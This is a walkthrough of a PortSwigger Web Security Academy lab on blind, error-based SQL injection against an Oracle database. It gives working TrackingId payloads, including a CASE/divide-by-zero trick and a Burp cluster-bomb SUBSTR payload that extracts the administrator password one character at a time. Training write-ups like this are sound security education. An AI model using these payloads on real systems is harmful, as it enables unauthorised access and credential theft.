

# Lab 12: Blind SQL Injection with Conditional Errors

**Platform:** PortSwigger Web Security Academy

## What's going on here

Lab 10 got a true/false signal from a visible "Welcome back" message. This one takes that away too — no message changes, no obvious content difference. The only thing left to read is whether the server throws an error at all. If a condition can be made to trigger an error only when true, that error itself becomes the signal.

## 🎯 Target

Extract the administrator's password using nothing but the presence or absence of a server error, on an Oracle backend.

## The bypass

**Confirming injection is possible:**

TrackingId=xyz'

Error thrown — unclosed quote broke the query.

TrackingId=xyz''

Error disappeared — confirms the input is landing inside a SQL string.

**Confirming it's specifically a SQL error, not something else:**

TrackingId=xyz'||(SELECT '' FROM dual)||'

No error — since this only worked once `dual` was added (not a bare `SELECT ''`), it pointed to Oracle, which requires every SELECT to reference a table.

TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'

Error returned, since the table doesn't exist — confirming the injected SQL is genuinely being executed.

**Turning it into a conditional error using CASE + divide-by-zero:**

TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

Error thrown — condition was true, so `1/0` executed.

TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

No error — condition false, divide-by-zero never ran.

That's the whole mechanism: wrap any condition in a `CASE`, make the true branch divide by zero, and the presence of an HTTP 500 becomes a readable true/false bit.

**Confirming the target and finding password length**, same approach as Lab 10 but using the error-based signal instead of a visible message — confirmed `administrator` exists, then tested `LENGTH(password)>N` for increasing `N` in Repeater until the error stopped, landing on 20 characters.

**Extracting the password — Cluster Bomb + brute force, since simple list alone wasn't going to cut it fast enough:**

TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

- **Position 1** — offsets `1` through `20`
- **Position 2** — lowercase letters and digits

Ran the attack, filtered results by **HTTP status 500** instead of a grep match this time — the error itself is the tell, not a keyword in the body. Reading the 500-status rows in offset order reconstructed the full password.

## Result

Extracted the full 20-character administrator password using only HTTP status codes as the signal, then logged in.

## Takeaway

Blind SQLi doesn't need visible content to leak data — an intentionally-triggered error, gated behind a condition, is just as good a channel as a visible message. The core technique (isolate a boolean, cluster-bomb every offset/character combination, read the signal) stays identical across both variants; only what counts as "true" changes.

---

Errors were the signal this time. Sometimes, though, the database is far less subtle — it just prints its data straight into the error message itself, no inference required: **[Lab 13 — Visible Error-Based SQL Injection](lab-13-visible-error-based.md)**.
